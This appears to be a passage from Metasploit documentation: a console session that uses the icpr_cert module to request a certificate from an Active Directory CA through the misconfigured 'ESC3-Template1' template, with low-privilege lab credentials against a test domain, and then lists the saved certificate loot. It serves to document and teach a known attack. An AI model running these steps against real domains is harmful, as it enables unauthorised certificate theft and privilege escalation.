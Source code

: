 ```msf
   SMBDomain      .                no        The Windows domain to use for authentication
   SMBPass                         no        The password for the specified username
   SMBUser                         no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normaluser
SMBUser => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normalpass
SMBPass => normalpass
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain DAFOREST
SMBDomain => DAFOREST
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC3-Template1
CERT_TEMPLATE => ESC3-Template1
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: normal@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-1611
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > loot

Loot
====

host  service  type           name             content               info                         path
----  -------  ----           ----             -------               ----                         ----
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216173718_default_unknown_windows.ad.cs_580032.pfx
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx

msf6 auxiliary(admin/dcerpc/icpr_cert) >
```
